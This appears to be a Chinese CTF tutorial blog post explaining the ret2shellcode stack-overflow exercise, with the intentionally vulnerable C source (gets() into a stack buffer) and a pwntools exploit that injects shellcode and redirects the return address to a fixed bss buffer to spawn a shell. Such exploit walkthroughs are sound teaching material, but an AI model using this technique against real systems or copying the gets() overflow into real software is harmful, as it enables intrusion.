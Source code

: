 ```yaml
---
layout:     post
title:      ret2shellcode
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




本文讲解栈溢出

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



[点击下载程序](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2shellcode)



第八行，gets函数存在溢出，ret2shellcode程序没有system，不能直接像ret2text一样利用程序中已有的system('/bin/sh')代码

![image-20180911162609611](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-084850.png)



但是相比ret2text多了一个strncpy函数，这个函数的作用是把s中的内容拷贝到buf2中

第一个参数为buf2为目的地址，&s为源地址，0x64u为buf2长度

```c
char *strncpy(char *dest, const char *src, size_t n);

strncpy(buf2, &s, 0x64u);
```

所以这里就出现了一个思路，自己构造shellcode，通过strncpy拷贝到buf2中，然后main函数的返回地址覆盖为buf2的地址

```python
buf2_addr = 0x0804A080
shellcode = asm(shellcraft.sh()) #pwntools自带的模块

sh.sendline(shellcode.ljust(112, 'a') + p32(buf2_addr))
#shellcode.ljust(112, 'a'）左填充
```



> buf2属于全局未初始化变量，在程序编译运行时候，在bss段中，地址固定不变
>
> buf属于局部未初始化变量，每一次程序加载运行在内存中的地址都是变化的

```c
ret2shellcode.c

#include <stdio.h>
#include <string.h>

char buf2[100];

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("No system for you this time !!!\n");
    gets(buf);
    strncpy(buf2, buf, 100);
    printf("bye bye ~");

    return 0;
}
```



exp：

```python
#!/usr/bin/env python

from pwn import *

remote_is = 1

if remote_is:
	sh = remote('127.0.0.1', 4444)
else:
	sh = process('./ret2shellcode')

buf2_addr = 0x0804A080
shellcode = asm(shellcraft.sh())

sh.sendline(shellcode.ljust(112, 'a') + p32(buf2_addr))

sh.interactive()
```



